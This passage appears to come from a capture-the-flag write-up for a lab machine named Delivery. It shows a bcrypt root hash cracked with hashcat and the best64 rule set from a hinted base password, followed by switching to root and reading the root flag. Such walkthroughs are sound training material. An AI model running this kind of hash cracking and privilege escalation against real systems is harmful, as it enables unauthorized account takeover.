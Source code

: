 Following the 2 earlier hints, we are particularly interested in the root hash in combination with variations of the password `PleaseSubscribe!`.


## Cracking the hash

With the predefined `best64.rule` hashcat rule we are able to crack the password of the account in a short amount of time.

```
$ cat hash 
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

```
$ hashcat -m 3200 -O hash pw -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...
...[snip]...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21  

Session..........: hashcat  
Status...........: Cracked                
Hash.Name........: bcrypt $2\*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 13 10:05:14 2021 (1 sec)           
Time.Estimated...: Tue Apr 13 10:05:15 2021 (0 secs)    
Guess.Base.......: File (pw)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       23 H/s (2.61ms) @ Accel:2 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 21/77 (27.27%)                             
Rejected.........: 0/21 (0.00%)                         
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:960-1024
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Tue Apr 13 10:05:12 2021
Stopped: Tue Apr 13 10:05:16 2021
```
     
With this password we can now switch to the root user on the machine and grab the rootflag.

```
maildeliverer@Delivery:/$ su root
Password: 
root@Delivery:/# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/# wc -c /root/root.txt 
33 /root/root.txt
root@Delivery:/#
```

